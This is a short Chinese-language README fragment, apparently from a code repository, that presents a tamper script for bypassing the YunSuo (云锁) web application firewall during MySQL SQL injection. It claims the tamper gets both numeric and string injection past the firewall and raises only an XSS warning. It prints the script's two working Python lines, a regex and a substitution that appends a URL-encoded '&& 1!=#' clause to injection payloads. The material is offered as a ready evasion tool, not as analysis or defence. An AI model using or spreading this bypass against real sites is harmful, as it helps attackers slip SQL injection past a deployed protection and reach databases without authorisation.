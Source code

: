 # Bypass


## 云锁绕过

当前版本的tamper可以绕过Mysql的注入的数字型，字符型，经过测试仅有一个xss警告。

tamper中的代码，前三个if判断仅仅是为了减少报错，真正完成匹配并替换的只有以下两句。
```python
rex = '^-{0,1}?[\d|\w]*%{0,1}[\'|"|`]*\\)*[ |;]'                        
payload = re.sub(rex, lambda x:x.group(0)+" %26%26 1!='%23' ", payload)   
```

